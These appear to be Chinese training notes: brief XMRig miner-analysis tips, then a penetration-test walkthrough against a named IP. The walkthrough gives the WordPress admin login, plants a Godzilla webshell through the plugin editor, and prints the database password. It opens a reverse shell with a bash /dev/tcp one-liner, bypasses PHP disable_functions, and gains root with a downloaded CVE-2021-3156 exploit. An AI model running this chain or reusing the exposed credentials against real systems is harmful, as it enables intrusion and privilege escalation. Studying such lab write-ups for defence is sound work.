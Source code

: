 xmrig：开源挖矿程序
[官网](https://xmrig.com/)
[github项目地址](https://github.com/xmrig/xmrig)
* 静态分析配置文件
    * config.json
    * 参数方式：xmrig -o 矿池地址-u 钱包地址 -k -p x
    * 内嵌配置：可使用strings命令行分析
    * 静态分析可以分析出矿池地址/挖矿代理服务器、钱包地址等信息
    * 钱包地址为4或8开头的95位长类似base64编码字符串（实际为base58编码）
* 动态分析
    * CPU占用率
    * 连接矿池域名：supportxmr/minexmr/nanopool
    * 异常通信端口：3333/5555/7777等

#### 下午：渗透测试
目标（真实的物理机）：http://118.107.47.130/
找到后台---->找到管理员用户名---->找到管理员密码---->进入后台---->SQL注入或者【文件上传】---->Getshell---->提权到root---->获取/root/flag.txt的值

1. 目标使用的建站框架是 ？
`wordpress`
2. 目标的后台入口是？
`http://118.107.47.130/wp-login.php`
3. 目标的管理员用户名是？
`WebAdmin/888888`
`jishinengyuan`
4. 目标的管理员密码是？
`WebAdmin/888888`
5. 目标的数据库用户名和密码是？
    ```
    进入后台，通过插件文件编辑器功能实现Getshell
    搜索可知插件文件默认路径为/wp-content/plugins/,当在插件文件编辑器中编辑advanced-custom-fields-pro/pro/blocks.php时，实际该文件在浏览器中的访问路径为http://118.107.47.130/wp-content/plugins/advanced-custom-fields-pro/pro/blocks.php
    使用Godzilla生成webshell，写入到advanced-custom-fields-pro/pro/blocks.php，连接即可Getshell
    在wordpress配置文件中找到/www/wwwroot/118.107.47.130_8088/wp-config.php数据库用户名和密码
    /** Database username */
    define( 'DB_USER', '118_8088' );
    /** Database password */
    define( 'DB_PASSWORD', 'a2kEiNy52pnT2bkn' );
    ```
6. 获取/root/flag.txt的值
由于phpinfo中做了命令执行的限制，所以几乎所有命令都不能在蚁剑和哥斯拉获取的shell控制台中执行，而反弹shell可以绕过这一限制
* 使用公网ip接受反弹shell
	登录公网IP机器监听端口`nc -nvlp port`
	使用FPMBypass绕过php的disable function进行命令执行
    在Godzilla中使用FPMBypass模块
    FPM/FCGI地址选择：/tmp/php-cgi-80.sock
    TEMP Path选择：/tmp
    在靶机中执行`php -r 'exec("/usr/bin/bash -i >& /dev/tcp/ip/port 0>&1");'`
    公网IP机器成功连接靶机
* 提权
    rpm -qa | grep sudo版本为sudo-1.8.23-3.el7.x86_64，位于漏洞版本范围
    使用cve-2021-3156提权 sudo提权
    https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_defaults_mailer.py
    将exploit_defaults_mailer.py上传至/tmp目录中
    运行python exploit_defaults_mailer.py
    /tmp中自动生成了/tmp/sshell文件
    然后执行/tmp/sshell提权成功
